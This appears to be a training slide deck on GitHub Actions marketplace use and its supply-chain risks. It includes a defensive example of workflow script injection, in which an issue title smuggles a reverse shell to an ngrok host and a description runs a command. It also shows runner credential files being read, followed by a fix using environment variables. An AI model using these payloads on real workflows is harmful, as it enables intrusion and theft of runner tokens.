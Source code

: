 <!-- .slide: -->
# Marketplace
## [How to use](https://github.com/marketplace?type=actions)

![float-left w-800](./assets/images/githubsearch.png)

![float-right w-800](./assets/images/githubaction_marketplace_action.png)

Notes: 
Node ou Docker
Demo direct sur la marketplace


##==##
<!-- .slide: class="with-code" -->

# Use a GitHub Action from the marketplace

## Using versioned actions

```yaml[]
steps:
  # Reference a specific commit
  - uses: actions/checkout@a81bbbf8298c0fa03ea29cdc473d45769f953675
    
  # Reference a specific version
  - uses: actions/checkout@v4.1.7
    
  # Reference the major version of a release
  - uses: actions/checkout@v4
    
  # Reference a branch
  - uses: actions/checkout@main
```

##==##
<!-- .slide: class="with-code" -->

# Use a GitHub Action from the marketplace


### Inputs

```yaml[]
- name: Inject slug/short variables
  uses: rlespinasse/github-slug-action@v4
  with:
    short-length: 8
    prefix: CI_
```

### Outputs

```yaml[]
- name : setup node
  id: my-id
  uses: actions/setup-node@v4
  with:
    node-version: '14'
- name: run test
  shell: bash
  run: |
    echo ${{ steps.my-id.outputs.node-version }}
```

Notes:


Reference in docker hub
from local folder (.github/action)

##==##
<!-- .slide: -->
# Useful actions

* [actions/checkout](https://github.com/marketplace/actions/checkout)

  * allows to check out a repository 
  * github_token, ref, depth, path, ... customization

* [actions/setup](https://github.com/marketplace?type=actions&query=setup+)

  * allows to install a tool
  * provided by GitHub and others
  * setup-java, setup-go, setup-node, setup-terraform, ....

* [actions/dependency-review-action](https://github.com/marketplace/actions/dependency-review)
  * scans pull requests for dependency changes and raises an error if vulnerabilities are found.

Notes:

##==##
<!-- .slide: -->

# Risk

* Credential stealing
  * Opportunistic
  * Intentional
* Any maintainer can update a branch or a tag
* Runner credential stealing 

Notes:
Opportunistic - sensitive information is accidentally output to the log and an attacker finds it and uses it
Intentional - an attacker is able to insert a program into your workflow that steals credentials and sends them to the attacker
Use SHA-1 instead of version


##==##
<!-- .slide: class="with-code" -->
# Risk
## Example

* Step of our GitHub Actions

```yaml[]
- run: |
    echo "ISSUE TITLE: ${{github.event.issue.title}}"
    ISSUE_DESCRIPTION="${{github.event.issue.body}}"
```

* Simple issue name that trigger our Action

  * Title => ```New title" && bash -i >& /dev/tcp/8.tcp.ngrok.io/15063 0>&1 && echo "```
  * Description => `a"; ls $GITHUB_WORKSPACE"`

* Let's fix it :

```yaml[]
- env:
    TITLE: ${{ github.event.pull_request.title }}
    DESCRIPTION: ${{github.event.issue.body}}
  run: |
    echo "ISSUE TITLE: "$TITLE"
    echo "ISSUE DESCRIPTION: $DESCRIPTION"
```

Notes:

ngrok to make a backdoor

##==##
<!-- .slide: class="with-code" -->
# Risk
## Example

* Credential 

```yaml[]
$ cat /home/runner/runners/2.287.1/.credentials
{"data":{"token":"REDACTED"},"scheme":"OAuthAccessToken"}
```

* Runner's data 

```yaml[]
$ cat /home/runner/runners/2.287.1/.runner
{
  "AgentId": "1",
  "AgentName": "Hosted Agent",
  "PoolId": "2",
  "ServerUrl": "https://pipelines.actions.githubusercontent.com/REDACTED/",
  "SkipSessionRecover": "True",
  "IsHostedServer": "True",
  "workFolder": "_work",
  "WorkFolder": "/home/runner/work",
  "MonitorSocketAddress": "127.0.0.1:49100"
}
```

Notes:
